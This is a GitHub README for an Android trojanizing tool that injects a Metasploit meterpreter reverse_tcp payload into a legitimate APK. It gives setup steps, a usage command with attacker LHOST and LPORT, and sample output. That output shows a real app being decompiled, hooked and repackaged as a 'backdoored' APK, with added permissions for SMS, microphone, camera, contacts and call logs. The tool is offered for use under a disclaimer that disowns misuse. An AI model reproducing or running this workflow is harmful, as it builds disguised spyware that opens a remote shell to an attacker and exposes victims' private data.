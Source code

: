 # EMBED v.2.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Zipalign

# INSTALLATION.
Give execute permissions to the configuration file setup:

	$  chmod +x setup

Now run the setup file:

	$  bash setup

This file will install and configure Termux with all the required libraries and dependencies including java for termux.


# JAVA FOR TERMUX

	https://github.com/ivam3/java

java needs administrator permissions for its execution, to which you must raise your permissions either using the sudo command :

	$ sudo java

or with a fake root:

	$ proot -0 -w ~ $SHELL
	$ java

This software and related documentation are provided under license agreement containing in www.java.com. Please refer to http://java.com/licensereadme.

# USAGE

	root@user# ruby EMBED.rb PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

	   ._____ __  __ ____  _____ ____
	   | ____|  \/  | __ )| ____|  _ \
	   |  _| |TERMUX|  _ \|  _| | | | |
	   | |___| |\/| | |_) | |___| |_| |
	   |_____|_|  |_|____/|_____|____/ v.2
	   #:::::::: By Ivam3 ::::::::::::#

	[*]─➤ Generating msfvenom payload..
	[*]─➤ Signing payload..
	[*]─➤ Decompiling orignal APK..
	[*]─➤ Ignoring the resource decompilation..
	[*]─➤ Decompiling payload APK..
	[*]─➤ Locating onCreate() hook..
	[*]─➤ Copying payload files..
	[*]─➤ Loading original/smali/devian/tubemate/home/Main.smali and injecting payload..
	[*]─➤ Poisoning the manifest with meterpreter permissions..
	[+]─➤ Adding android.permission.SEND_SMS
	[+]─➤ Adding android.permission.RECEIVE_SMS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CALL_PHONE
	[+]─➤ Adding android.permission.READ_CONTACTS
	[+]─➤ Adding android.permission.WRITE_CONTACTS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CAMERA
	[+]─➤ Adding android.permission.READ_SMS
	[+]─➤ Adding android.permission.RECEIVE_BOOT_COMPLETED
	[+]─➤ Adding android.permission.SET_WALLPAPER
	[+]─➤ Adding android.permission.READ_CALL_LOG
	[+]─➤ Adding android.permission.WRITE_CALL_LOG
	[*]─➤ Rebuilding /sdcard/Download/tubemate-2-4-21.apk with meterpreter injection as data/data/com_backdoored.apk..
	[*]─➤ Signing data/data/com_backdoored.apk ..
	[*]─➤ Aligning data/data/com_backdoored.apk ..
	[+]─➤ Infected file legitim.apk_final ready.


This tool was written by Ivam3, <https://t.me/Ivam3byCinderella>
Some maintenance releases have been done by <https://t.me/Ivam3_Bot>

